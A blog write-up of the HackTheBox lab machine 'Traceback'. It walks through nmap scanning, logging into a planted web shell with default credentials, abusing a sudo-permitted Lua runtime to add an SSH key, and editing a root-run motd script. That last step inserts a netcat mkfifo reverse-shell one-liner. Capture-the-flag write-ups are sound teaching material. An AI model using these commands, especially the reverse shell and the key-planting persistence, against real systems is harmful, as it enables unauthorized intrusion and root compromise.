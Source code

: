   title: "Traceback (HackTheBox)",
  description: "HackTheBox",
  date: "August 19, 2020",
};


<div className={styles.post}>

# Traceback (HackTheBox)
###### August 19, 2020
Started the box by enumerating services on the machine using nmap. Nmap scan returned http and ssh services which weren't that interesting.

<div className={styles.codeblock}>

```
# Nmap 7.80 scan initiated Wed May 20 06:40:09 2020 as: nmap -sV -sT -oN nmap 10.10.10.181
Nmap scan report for 10.10.10.181
Host is up (0.094s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 20 06:40:21 2020 -- 1 IP address (1 host up) scanned in 11.59 seconds
```

</div>

Going to http://10.10.10.181, the website had already been owned by Xh4H and the hacker claims to have left a backdoor somewhere.

Running directory bruteforcing using Daniel Miessler's wordlists returned zero results. However, upon checking the page source, there's a comment saying "Some of the best web shells that you might need". 
Throwing that string into Google took me to a Github repo https://github.com/TheBinitGhimire/Web-Shells.

Going through the list of backdoors, http://10.10.10.181/smevk.php returned a <code>HTTP 200 OK</code>. Using the default credentials <code>admin:admin</code>, I was able to gain access to the webshell.
The webshell's interface was really ugly, but it was sufficient to do some basic enumeration.

<div className={styles.codeblock}>

```
# Determine user
$ whoami
webadmin

# Check home directory
$ ls -a /home/webadmin
. .. .bash_history .bash_logout .bashrc .cache .local .luvit_history .profile .ssh note.txt

# Read note.txt
$ cat /home/webadmin/note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.

# List user privileges
$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

</div>

Looking through the results, it seems <code>/home/sysadmin/luvit</code> can be executed as the user <code>sysadmin</code> without authentication.

I had never written a single line of Lua code before and after doing some googling it seems that Luvit is a runtime environment for Lua.
Reading through the documentation I tried to craft some lua payload which will be executed as <code>sysadmin</code>.

The following lua code lists files in <code>/home/sysadmin</code>

<div className={styles.codeblock}>

```
directory='/home/sysadmin/'
pfile = io.popen('ls -a "'..directory..'"')
for filename in pfile:lines() do
    print(filename)
end
```

</div>

To execute this piece of code, I simply had to write this code somewhere on the box and run it using luvit. To do so, I echoed my code to <code>/tmp/</code> on the box and ran it.

<div className={styles.codeblock}>

```
$ echo "directory='/home/sysadmin/';pfile = io.popen('ls -a \\"'..directory..'\\"');for filename in pfile:lines() do;print(filename);end" > /tmp/listdir.lua

$ sudo -u sysadmin /home/sysadmin/luvit /tmp/listdir.lua
. .. .bash_history .bash_logout .bashrc .cache .local .profile .ssh luvit user.txt

```

</div>

Modifying the payload to print <code>/home/sysadmin/user.txt</code>, I got my first flag.

<div className={styles.codeblock}>

```
$ echo "pfile = io.popen('cat /home/sysadmin/user.txt');for filename in pfile:lines() do;print(filename);end" > /tmp/getflag.lua

$ sudo -u sysadmin /home/sysadmin/luvit /tmp/getflag.lua
{{FLAG}}

```

</div>

Enumerating through sysadmin's home folder, I found the <code>.ssh</code> folder with the <code>authorized_keys</code> file. Adding my public key to this file should grant me ssh access as sysadmin to the box.
Using <code>ssh-keygen</code>, I created a new ssh keypair. The payload adds my public key to the list of authorized keys. 

<div className={styles.codeblock}>

```
$ echo "io.popen(\\"echo '{{PUBLIC KEY}}' >> /home/sysadmin/.ssh/authorized_keys\\")" > /tmp/ssh.lua

$ sudo -u sysadmin /home/sysadmin/luvit /tmp/ssh.lua
```

</div>

Ssh-ed into the box using <code>ssh -i PRIVATE_KEY sysadmin@10.10.10.181</code> and I was greeted by a message from Xh4h and a shell.

<div className={styles.codeblock}>

```
➜  ~ ssh -i PRIVATE_KEY sysadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 

$
```

</div>

Trying to privilege escalate from sysadmin to root was kinda tricky. I tried looking for files with incorrect permisions or suid binaries but found nothing. However looking through the list of processes using <code>ps -aux</code>, there was a command being executed as root that seemed to be running at intervals.

<div className={styles.codeblock}>

```
root       3851  0.0  0.0   4628   772 ?        Ss   19:15   0:00 /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
```

</div>

The command seems to be restoring a backup of the message of the day (motd), which is a service that can be used to print custom greeting messages upon login - similar to the greeting from Xh4h upon ssh-ing into the box.

Looking through <code>/etc/update-motd.d/</code>, there were several messages and the first one <code>/etc/update-motd.d/00-header</code> contained <code>echo "\nWelcome to Xh4H land \n"</code>, which was the greeting upon logging into the box. This could be abused by adding commands to run upon login, which will be run as root.

I set up a reverse shell listener on port 1337 on my local machine. Afterwards, I edited <code>/etc/update-motd.d/00-header</code> to set up a netcat reverse shell connector. 

<div className={styles.codeblock}>

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {{ipaddr}} 1337 >/tmp/f; echo "\nWelcome to Xh4Hland \n"
```

</div>

In a different window, ssh into the box and monitor the reverse shell listener. Note that it may require a few tries since the motd gets overwritten every 30 seconds. If timed correctly you should have access to the root shell. Navigate to <code>/root</code> to grab the root flag.

<div className={styles.codeblock}>

```
$ cat /root/root.txt
{{FLAG}}

```

</div>


</div>
